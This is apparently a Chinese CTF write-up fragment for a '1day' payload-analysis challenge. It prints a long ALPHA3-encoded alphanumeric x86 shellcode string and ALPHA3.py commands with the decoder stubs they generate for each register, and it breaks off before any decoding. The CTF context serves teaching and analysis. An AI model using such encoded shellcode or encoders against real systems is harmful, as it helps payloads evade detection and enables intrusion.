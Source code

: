 #1day

450<br>
IPS发现并捕获到了一个1day漏洞的利用，还好有防御措施，系统未被攻陷。请你帮danny后续分析一下这次漏洞利用的payload，分析并找到它的验证密钥。<br>

这个是个挺好玩的题目。<br>
给的是一段字符：<br>

    Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M15103
    l0y4q3J3d8O4F8K095N0O3L5k3W4p1L3m3O8m018M4T3l0E4V1K1M0m0L1K0z8L4
    O8N4s3A4Y5l1P0e5M4I8K3T3p3g3B0g8O8P3119120z3Y1p0G0n7p2m2t2Z1M034
    N4Y8M4A3N0R4U4u8O7O370e4p1o4B0X0c3E3c2p3s303M0f0x3F3R2r4Z3v8o0V0
    E7k0l0K2z2D190T123D4o7L4G5K2z0v4I3Z3R4B3J3c38175M313a5p3y3a4X114
    O394o4F3C3g4W184W343c4A2r0g3e05313M4n0l4V2w0l4J3R4Q3G153V4x4l0S0
    q2t0V0D4z3D3R020P3G3v163Y4z3a1p1N3E40113P304U1n0a3G3t193r304y0V3
    m0V300a8P5N8M3f3L4u3Y2D8M4r4P3g4I4u3B2E5o314N3b3O4r3V7p3z5K4B0U0
    I3E3p1M3n3D2t0x374U402n7N4X3q0b031p8M8M3P40364K4o8O0H2z0H3p3V054
    l3H2n2u4r3v2F7M4q4O7K2j2q2D2I2w324P4J19134A0b4K4U4W3c0G0T174I5O3
    U4u4t3o3g4H4q0G0r4Y3O0A4O0V4u2u4p4U1K2B4o3c3g0w5p0Y3R0u0O4R0S0d4
    Y7L5K0D2C7N2M3q3z7L320e4W0m2v8l5L4W3X8N0q7l2Z024B4P8L8K8L3g5L0T7
    L8L3v040h144k4x4P4t4v8O8M403r4M4p8L3L0E113p0A4n3L3f12124O361N4G4
    M4Q3t2n094C3D141M0E8K4B4S4Z0c3Y0Q023D0F4U4W1n0q333K1K2y4p335l5N0
    k0m153R0h2L370A3n7N330d4A0m5N1m083l08084V3C3D0w4Q1o4J8K060b8l054
    v3D0j144T5l0h3m8L7K2G4y0a4Q3A3j3X7L5n0b4n4V1N0t3Z3K0W4M3F2L2H4q1
    M0n340w0j4j3b194y8m3w0u1k0Y3J2F3b7O5M0U3f4W2v3c4F1k5M1o2q383R123
    23t0m144F7M365N2o2K3V0A4k5l1k3l3g7K5N0G0W15315M0p0l2k2k2E0I3V335
    O4S3U2o1P4H3V1L053s4s2m0a00360o3Y3X2Z4M1p5k0x0n4s4Y5M8L3q3b4A1M0
    43p3I1n3K4R4E0t3G3J1n4j4n4v325N4q4t4U0E4k3C5K4y0B3H0x174N5k1K0e4
    Q3N0L134Y5n0v404p2w2L0A4v3D4D7m4C3C5m193Z4W3S1O2M4C4E8N2j3C1L013
    74Q2E0N3o3D8N4q0d3u7p2o2q3D8L100p3J124n4s4T3u4E7N3D0R4Z3j3d4G4x8
    N5M3F117O3B0u3b3H4V4W4L4I8l4k7l2p0Q3l0B2x2r2v2Z0p8P164L3L2K2j0A0
    Z3L0k0N4M5n0a0k323H4E5m400V8l075o3p5M102j0m0n054B4Y4M093i4V353y3
    S4l360Y360Y5m8M0G0n1L0w3K2K5n5L8n4Q4U0E0e5l0K3N3Y2N3U0A3m2K4q0x0
    E0P3f4y2t4n18023e1M0Q0A8o4R3N3e3T5n3W5K0W4R3H1P373w7o388K2L138N7
    M4T0c0G0O4U4U103o3m374G8N3F3a0q2q8P3w170a5m3a0y5L0S4B0B0a4V4Z4C4
    L8L0w0A2C5n3X402J4P3C4E3i1n4v2v3c3I0x2J4S3x304y4s4u4V197K2s3K0u3
    u3A4A2z2B03
然后，一看就知道是alpha3处理过的字符数字shellcode。<br>
于是找出alpha3，生成了多生成了几个模板：<br>

    python ALPHA3.py x86 ascii mixedcase EAX --input=ALPHA3.cmd
    hffffk4diFkTpj02Tpk0T0AuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    python ALPHA3.py x86 ascii mixedcase EBX --input=ALPHA3.cmd
    hffffk4diFkDsj02Dsk0D3AuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    python ALPHA3.py x86 ascii mixedcase EcX --input=ALPHA3.cmd
    hffffk4diFkDqj02Dqk0D1AuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    python ALPHA3.py x86 ascii mixedcase EDX --input=ALPHA3.cmd
    hffffk4diFkDrj02Drk0D2AuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    python ALPHA3.py x86 ascii mixedcase EDI --input=ALPHA3.cmd
    hffffk4diFkDwj02Dwk0D7AuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    python ALPHA3.py x86 ascii mixedcase ESI --input=ALPHA3.cmd
    VYhffffk4diFkDql02Dqm0D1CuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    python ALPHA3.py x86 ascii mixedcase ESP --input=ALPHA3.cmd
    TYhffffk4diFkDql02Dqm0D1CuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    python ALPHA3.py x86 ascii mixedcase EBP --input=ALPHA3.cmd
    hffffk4diFkDuj02Duk0D5AuEE150A0L0D2I1o2B2p0a0L2M0A11120l0B192p0D2z0L
    